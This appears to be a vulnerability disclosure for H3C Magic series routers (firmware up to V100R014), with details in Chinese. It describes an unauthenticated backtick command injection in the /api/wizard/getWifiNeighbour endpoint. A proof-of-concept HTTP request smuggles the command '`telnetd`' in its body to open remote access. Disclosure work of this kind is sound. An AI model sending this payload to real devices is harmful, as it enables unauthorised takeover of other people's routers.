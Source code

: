 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

在 `H3C` 的 `Magic` 系列产品中 `H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro` ，允许攻击者在未授权情况下向 `/api/wizard/getWifiNeighbour` 路由发送构造的特定 `POST` 数据包，实现获取设备最高权限。

## Vulnerability details

在 `api` 文件中的 `FCGI_WizardProcess` 函数存在路由 `/wizard/getWifiNeighbour` ，可以触发对应的处理函数

![image-20250314163741195](https://raw.githubusercontent.com/Qwen11/picture/main/202503141637257.png)

因为危险字符忘记过滤反引号，导致命令注入

![image-20250314163825207](https://raw.githubusercontent.com/Qwen11/picture/main/202503141638325.png)

## Poc

```
POST /api/wizard/getWifiNeighbour HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

